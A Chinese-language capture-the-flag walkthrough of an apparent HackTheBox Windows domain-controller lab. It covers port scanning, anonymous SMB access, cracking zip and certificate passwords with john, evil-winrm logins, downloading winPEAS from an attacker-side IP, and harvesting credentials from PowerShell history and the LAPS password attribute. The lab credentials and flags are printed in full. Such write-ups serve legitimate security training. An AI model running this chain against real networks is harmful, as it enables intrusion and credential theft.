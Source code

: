 有開啟的 port 先全部掃出來 再慢慢去仔細掃
```
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-11-28 11:26:12Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
|_http-title: Not Found
|_ssl-date: 2024-11-28T11:27:46+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49675/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc             Microsoft Windows RPC
49697/tcp open  msrpc             Microsoft Windows RPC
49731/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m58s
| smb2-time: 
|   date: 2024-11-28T11:27:06
|_  start_date: N/A
```

使用 `crackmapexec smb <IP>` 確認 domain name : timelapse.htb
![image](https://hackmd.io/_uploads/HJxAevSXkl.png)

想嘗試 `smbmap` 但無果
![image](https://hackmd.io/_uploads/B1D7-wS7ye.png)

使用 `smbclient -L //<IP地址或主機名> -N` 查看有哪些共享目錄 `-L` 是找尋共享目錄 `-N` 是用來嘗試是否可以匿名登入 (允許免登入共享目錄可能是因為是在公司內網 因此要讓大家可以存取)
發現一個 share 資料夾
![image](https://hackmd.io/_uploads/Hkg_ODBmJg.png)

這也有一樣的效果 `crackmapexec smb 10.10.11.152 --shares -u 'sdfds' -p ''` 帳號隨便打 密碼留空 然後要放在 `--shares` 的後面

就可以成功登入 `smbclient -N //10.10.11.152/shares` 然後找到一個 `winrm_backup.zip` 的檔案 用 `get` 把他下載下來
![image](https://hackmd.io/_uploads/rkhrnPHXJx.png)

嘗試解壓縮但需要密碼
![image](https://hackmd.io/_uploads/SJIhhwBXke.png)

透過 zip2john 輸出成 hash 再使用 john 去爆破 hash table 沒找到 所以用 rockyou 去爆破 找到密碼 `supremelegacy`
```
zip2john winrm_backup.zip > ziphash.txt              
ohn ziphash.hash -w /usr/share/wordlists/rockyou.txt 
```

解壓縮出來是一個 .pfx file 上網查了一下後得知可以用來登入 winrm 服務 前提是要提取出他的 私鑰跟憑證
```
# 提取私鑰
openssl pkcs12 -in xxx.pfx -nocerts -out private.key -nodes

# 提取公鑰憑證
openssl pkcs12 -in xxx.pfx -clcerts -nokeys -out certificate.crt
```

但要提取時發現也需要密碼 因此用同樣的方法再去爆破一次 得到 `thuglegacy`
```
pfx2john xxx.pfx > pfx.hash
john pfx.hash -w=/usr/share/wordlists/rockyou.txt
```

就可以去用 evil-winrm 做連線
```
-S 是指使用 ssl 做連線
evil-winrm -i 10.10.11.152 -certificate.crt -k private.key -S
```

連線成功 找到 user flag `2c0d9ab6a92085231dc055d4c27b406c`
![image](https://hackmd.io/_uploads/S1Y-KsIm1g.png)

使用 `powershell Invoke-WebRequest -Uri http://10.10.14.4:8888/winPEAS.bat -OutFile winpeas.bat` 可以讓我們下載東西 但是 winpeas 無法執行 被識別為惡意程式
![image](https://hackmd.io/_uploads/rJGFTsUXkl.png)

發現其實可以直接 upload
![image](https://hackmd.io/_uploads/Syd-gh87kl.png)

`net user legacyy` 有看到一個 `Development` 的身分群組 
![image](https://hackmd.io/_uploads/HkKg5nI7kl.png)

可以使用這個指令查看 powershell 的歷史紀錄 參考[這篇](https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html)
```
cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

找到一個 user `svc_deploy` 跟他的密碼 `E3R$Q62^12p7PLlC%KWaxuaV` 結合前面發現的 development 。可以猜測應該是這群組的帳號
![image](https://hackmd.io/_uploads/Sy2sFn8Qyg.png)

拿去登入 `evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S` 查看發現有一個特別的 group `LAPS_Readers`
![image](https://hackmd.io/_uploads/rJ898RImkl.png)

參考這篇[文章](https://www.freebuf.com/articles/network/398026.html) 有介紹什麼是 `laps` 以及要如何去讀取到 Administrator 的密碼
```
LAPS 的作用
LAPS 是一種安全解決方案，用於解決企業中本地管理員帳號密碼統一導致的安全問題。通過 LAPS，每台電腦的本地管理員帳號會自動生成一個唯一且隨機的密碼，並將密碼安全地存儲在 Active Directory 的 ms-Mcs-AdmPwd 屬性中。

ms-Mcs-AdmPwd 的功能
儲存本地管理員密碼：此屬性儲存每台電腦當前的本地管理員密碼。
安全性設計：只有被授權的用戶或群組才能讀取這個屬性。未授權的用戶無法訪問。
定期更新密碼：LAPS 會按照設定的策略自動更新本地管理員帳號密碼，並將新密碼同步到 Active Directory 中。

如何查看 ms-Mcs-AdmPwd
開啟 Active Directory 使用者與電腦管理工具 (ADUC)。
找到目標電腦的物件。
查看該物件的屬性，在屬性頁面中可以找到 ms-Mcs-AdmPwd（如果有適當的權限）。
```

使用 `Get-ADComputer DC01 -property * ` 再去篩選出 `ms-mcs-admpwd` 找到密碼 `,Cz0Q2Ms}lmu7zZ6T1@/7xUa`
(或是直接指定找他也可以 `Get-ADComputer DC01 -property 'ms-mcs-admpwd'
`)
![image](https://hackmd.io/_uploads/HkweCJPQJl.png)

有了密碼後就可以拿去登入看看 因為 laps 全名為 Local Administrator Password Solution 因此 username 就是 Administrator (應該是這原因)
```
evil-winrm -i 10.10.11.152 -u 'administrator' -p ',Cz0Q2Ms}lmu7zZ6T1@/7xUa' -S 
```

進去後就是 administrator 身份 在 TRX 資料夾找到 root.txt `f38a8f77ca17ad97c56b3a9fb6c215c7`
![image](https://hackmd.io/_uploads/Sk8bNgPXkg.png)
